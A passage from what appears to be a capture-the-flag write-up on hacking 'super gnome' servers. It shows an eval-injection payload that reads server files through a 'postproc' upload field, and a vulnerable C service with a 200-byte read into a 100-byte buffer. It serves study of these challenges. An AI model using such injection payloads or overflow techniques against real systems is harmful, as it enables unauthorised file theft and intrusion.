         });
        // STUART: (WIP) working to improve image uploads to do some post processing.
        msgs.push('Post process result: ' + result);
	  ...
{% endhighlight %}

The value of "postproc" comes from a dropdown field but we can of course set it to whatever we want. Using the function "fs.readFileSync()" we can read a file blockingly and returning the contents of that file. That is exactly what we need. For the text files such as "gnome.conf", this works fine, however for the zip files, this becomes a little bit messy. To make the transfer more robust, we use the NodeJS native object "Buffer" to convert the base 64 encode the contents before returning it to the client.

So, by uploading any dummy file and setting the "postproc" POST variable to "new Buffer(fs.readFileSync('/gnome/www/files/gnome.conf')).toString('base64')", we get a call which looks like this:

{% highlight javascript %}
msgs.push(
	"Post process result: " + 
	eval(
		"new Buffer(
			fs.readFileSync('/gnome/www/files/gnome.conf')
		).toString('base64')"
	)
)
{% endhighlight %}

Thus, we get the contents of the specified file rendered on the client as a base 64 encoded string which can then be base 64 decoded to get that file. This can then be repeated for all of the six files.

#### SG-05: Buffer Overflow

Doing an "nmap" scan of this super gnome revealed a service running on port 4242. Connecting to this port with "netcat" presented us with a menu with three choices. This corresponded exactly to the code found in sgnet.zip. Looking at this code (specifically sgstatd.c:66) I found a fourth command which called the "sgstatd()" function. This function has to properties that immediately sticks out: it has buffer overflow vulnerability on row 147 since it reads 200 bytes into a 100 byte large buffer, and it also has a stack canary looking feature on row 140 and 148.

{% highlight c %}
int sgstatd(sd)
{
	__asm__("movl $0xe4ffffe4, -4(%ebp)");
	//Canary pushed

	char bin[100];
	write(sd, "\nThis function is protected!\n", 30);
	fflush(stdin);
	//recv(sd, &bin, 200, 0);
	sgnet_readn(sd, &bin, 200);
	__asm__("movl -4(%ebp), %edx\n\t" "xor $0xe4ffffe4, %edx\n\t"	// Canary checked
		"jne sgnet_exit");
	return 0;
}
{% endhighlight  %}
